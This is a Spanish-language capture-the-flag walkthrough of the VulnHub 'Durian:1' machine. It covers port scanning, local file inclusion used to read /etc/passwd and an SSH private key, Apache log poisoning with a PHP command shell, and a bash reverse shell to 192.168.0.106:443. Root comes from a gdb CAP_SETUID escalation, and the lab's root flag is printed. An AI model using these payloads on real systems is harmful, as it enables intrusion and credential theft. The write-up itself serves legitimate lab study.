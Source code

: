 ```yaml
---
layout: single
title: Durian:1 - VulnHub
excerpt: " Difficulty: Hard Tested: VMware Workstation 15.x Pro (This works better with VMware rather than VirtualBox) Goal: Get the root shell i.e.(root@localhost:~#) and then obtain flag under /root). "
date: 2022-11-10
classes: wide
header:
  teaser: /blog/assets/images/vh-writeup-durian/durian.png
  teaser_home_page: true
  icon: /blog/assets/images/vulnhub.webp
categories:
  - vulnhub
tags:  
  - lfi
  - burpsuite
  - poisoning
  - capabilities
  - gdb
---
```


Difficulty: Hard Tested: VMware Workstation 15.x Pro (This works better with VMware rather than VirtualBox) Goal: Get the root shell i.e.(root@localhost:~#) and then obtain flag under /root).

# Summary
- IP: 192.168.0.115
- Ports: 22,80,7080,8088
- OS: Linux (Debian Buster)
- Services & Applications:
	-  22 -> OpenSSH 7.9p1 Debian 10+deb10u2
	-  80 -> Apache httpd 2.4.38
	-  7080-> LiteSpeed
	-  8088 -> LiteSpeed

# Recon

- Escaneo básico de puertos:

```bash
$sudo nmap -p- -sS --open --min-rate 5000 -vvv -n -Pn 10.10.129.26 -oG allPorts
```


- Escaneo profundo de puertos encontrados:

```bash
$sudo nmap -p21,80,7080,8088 -sCV 10.10.129.26 -oN targeted
```

- Escaneo básico de página web:

```bash
$nmap --script http-enum -p80 192.168.0.112 -oN webScan
```

- Analizamos el directorio cgi-data y encontramos un recuerso php, lo analizamos con wfuzz en búsqueda de algún parámetro que apunte a archivos del sistema (LFI) y encontramos que el parámetro "file" es vulnerable.

- Vemos el archivo /etc/passwd y enumeramos los usuarios que tienen una bash.


# Enumeración básica de LFI:

```bash
curl -s -X GET "http://192.168.0.115/cgi-data/getImage.php?file=/proc/net/tcp" | tail -n 4

curl -s -X GET "http://192.168.0.115/cgi-data/getImage.php?file=/proc/net/tcp" | tail -n 4  |  awk '{print $2}'
```

- Nos encontramos con puertos abiertos dentro de la máquina en hexadecimal (Últimos 4 caracteres de cada fila) transformarlos en decimal:

```bash
$echo $((16#VALOR HEXADECIMAL))
```

- Encontramos el puerto 3306 abierto (Mysql)

- Enumeramos procesos:

```bash
$curl -s -X GET "http://192.168.0.115/cgi-data/getImage.php?file=/proc/sched_debug"
```

- Enumeramos usuarios:

```bash
curl -s -X GET "http://192.168.0.115/cgi-data/getImage.php?file=/etc/passwd" | grep "sh$"
```

- Enumerar clave privada de usuario encontrado:

```bash
$curl -s -X GET "http://192.168.0.115/cgi-data/getImage.php?file=/home/durian/.ssh/id_rsa"
```

- Verificar que exista vulnerabilidad de log poisoning listando los recursos de apache, mail ssh:

```bash
$curl -s -X GET "http://192.168.0.115/cgi-data/getImage.php?file=/var/log/apache2/access.log"

$curl -s -X GET "http://symfonos.local/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/var/mail/helios"

$curl -s -X GET "http://192.168.0.115/cgi-data/getImage.php?file=/var/log/auth.log"
```


- Al no obtener información relevante, tratamos de derivar el LFI a RCE con burpsuite:
- Abrimos burpsuite y nos vamos al recurso mediante el navegador para interceptar desde el proxy:

```
(536=proceso de apache visto en el recurso sched_debug)
http://192.168.0.115/cgi-data/getImage.php?file=/proc/536/cmdline
```

- Interceptar peticion en burpsuite y mandarla al repeater (Ctrl+R):

- apuntar a:

```
http://192.168.0.115/cgi-data/getImage.php?file=/proc/self/fd/0
```

y mandarla al Intruder ( Ctrl+i ) para realizar ataque:

- Seleccionar ataque de tipo Snipper
- Seleccionar "clear" para limpiar
- Seleccionar el 0 y click en ADD.
- En la pestaña payloads seleccionar de tipo numérico (numbers)
- Indicar desde 1 hasta 30 de 1 en 1
- Click en start attack
- Examinar recursos:
- En los recursos con mayor número de respuestas pueden tratarse de logs, en este caso en la ruta "8" vemos demasiadas respuestas, por lo que podría ser el log de apache: (reiniciar máquina víctima para comprobar que se haya limpiado el supuesto log de apache)
- Seleccionar la petición de la ruta "8" y mandarla al repeater (Ctrl+r)

```
http://192.168.0.115/cgi-data/getImage.php?file=/proc/self/fd/8
```

- Repetimos la petición y vemos que si se trata del log de apache ya que registra las peticiones que se hacen a la IP de la máquina
- Ahora inyectamos código PHP en el user-agent ya que estamos apuntando a un archivo php (getImage) y el código lo debería interpretar:
- Hacemos una petición cualquier a la web y capturamos con Burpsuite:
- Modificamos en el repeater el user-agent por el código PHP y le damos send:

```
<?php system('whoami'); ?>
```

- Revisamos de nuevo el log apache y veremos el código PHP interpretado.
- Hacemos que por un parámetro "cmd" podamos ejecutar los comandos que queramos desde el link:

```
<?php system($_GET['cmd']); ?>
```

- Ahora desde el link (como ya existe un interrogante agregamos un ampersan) podemos ejecutar comandos:

view-source:http://192.168.0.116/cgi-data/getImage.php?file=/proc/self/fd/8&cmd=pwd

- Creamos una reverse shell básica:

view-source:http://192.168.0.116/cgi-data/getImage.php?file=/proc/self/fd/8&cmd=bash -c "bash -i >%26 /dev/tcp/192.168.0.106/443 0>%261"

- Accedemos, hacemos tratamiento de la tty y obtenemos la flag de usuario:

#  USER FLAG: ************************


# ESCALANDO PRIVILEGIOS:

- Con sudo -l vemos que tenemos permitido ejecutar dos binarios como root "shutdown" y "ping", buscamos en gtfobins pero no encontramos nada, se trata de una rabbit hole.
- Buscamos por capabilities:

```bash
getcap -r / 2>/dev/null
```

- Obtenemos "gdb" con capabilities, buscamos en gtfobins y si que hay forma de ganar acceso a una bash root:

If the binary has the Linux `CAP_SETUID` capability set or it is executed by another binary with the capability set, it can be used as a backdoor to maintain privileged access by manipulating its own process UID.

-   This requires that GDB is compiled with Python support.
    
    ```bash
    cp $(which gdb) .
    sudo setcap cap_setuid+ep gdb
    
    ./gdb -nx -ex 'python import os; os.setuid(0)' -ex '!sh' -ex quit
    ```

- Ejecutamos el comando y accedemos como root.

#  ROOT FLAG: SunCSR_Team.af6d45da1f1181347b9e2139f23c6a5b
